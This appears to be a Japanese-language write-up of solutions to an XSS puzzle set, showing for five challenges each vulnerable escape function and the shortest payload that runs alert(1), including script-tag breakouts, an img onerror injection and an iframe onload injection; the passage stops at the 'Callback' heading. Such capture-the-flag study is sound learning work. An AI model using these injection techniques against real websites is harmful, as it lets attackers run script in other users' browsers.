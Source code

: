 # 問題一覧
- [x] [Warmup](#Warmup)
- [x] [Adobe](#Adobe)
- [x] [JSON](#JSON)
- [x] [Markdown](#Markdown)
- [x] [DOM](#DOM) [](#)
- [x] [Callback](#Callback)
- [x] [Skandia](#Skandia)
- [x] [Template](#Template)
- [x] [JSON2](#JSON2)
- [x] [Skandia2](#Skandia2)
- [ ] [iframe](#iframe)
- [ ] [TI(S)M](#TISM)
- [ ] [JSON3](#JSON3)
- [x] [Skandia3](#Skandia3)
- [ ] [RFC4627](#RFC4627)
- [ ] [Well](#Well)
- [x] [No](#No)
- [ ] [K'Z'K](#K'Z'K)
- [ ] [K'Z'K-2](#K'Z'K-2)
- [ ] [K'Z'K-3](#K'Z'K-3)
- [ ] [Fruit](#Fruit)
- [ ] [Fruit2](#Fruit2)
- [ ] [Fruit3](#Fruit3)
- [ ] [Capitals](#Capitals)
- [ ] [Quine](#Quine)
- [ ] [Entities](#Entities)

## Warmup
```Javascript
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```
何のエスケープもない普通の問題です。12文字。
```
");alert(1,"
```

## Adobe
```Javascript
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```
`"`が`\"`にエスケープされます。  
`\"`と入力すると`\\"`となり、文字列として`console.log`を閉じることができます。  
末尾をコメントアウトして、14文字。
```
\");alert(1)//
```
## JSON
```Javascript
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```
`JSON.stringify`を用いたエスケープです。  
一度タグを閉じてから末尾をコメントアウトすると最短。27文字。
```
</script><script>alert(1)//
```

## Markdown
```Javascript
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```
サンプルで用意されている`[[img123|Description]]`をいれると、６行目の置換により
```html
<img alt="Description" src="img123.gif">
```
となります。  
５行目では`http://S+`の形の文字列を`<a>`タグに変換しているため、後半を任意のURLに書き換えることで、以下のように`<img>`タグを閉じることができます。  
例：`Input：[[img123|http://xxx]]`
```html
<img alt="<a href="http://xxx" src="img123.gif">">http://xxx]]</a>
```
開発者ツールでこの部分を検証してみると以下のようになっており、`<img>`タグに`http:`属性と`xxx`属性が付与されたことがわかります。  
htmlにおける`//`が区切り文字となっているためこのようなことが起こります。  
今回は存在しないgifの読み込みエラーが発生するため、`onerror`属性にスクリプトを仕込んだところ発火しました。  
末尾をコメントアウトで排除し、文字数削って31文字。
```
[[x|http://onerror=alert(1)//]]
```

## DOM
```Javascript
function escape(s) {
 // Slightly too lazy to make two input fields.
 // Pass in something like "TextNode#foo"
 var m = s.split(/#/);

 // Only slightly contrived at this point.
 var a = document.createElement('div');
 a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
 return a.innerHTML;
}
```
文字列Sを`#`で区切り、前半を`m[0]`後半を`m[1]`に代入しています。  
DOMの`document.create`から始まるメソッドを調べたところ、`document.createComment()`というメソッドがそれっぽかった。  
>**Document.createComment()**   
新しいコメントノードを生成して、返します。

参照：https://developer.mozilla.org/ja/docs/Web/API/Document  
`Comment#hoge`を入力すると`<!--hoge-->`が出力されるので、文頭のコメントアウトを閉じ、中身を発火させるhtmlに書き換えれば終了。iframeつかって32文字。
```
Comment#><iframe onload=alert(1)
```
Firefoxなどでは`svg/onload`が使えるのでさらに短くなるはずだけど、うまくいきませんでした。何故…。

## Callback
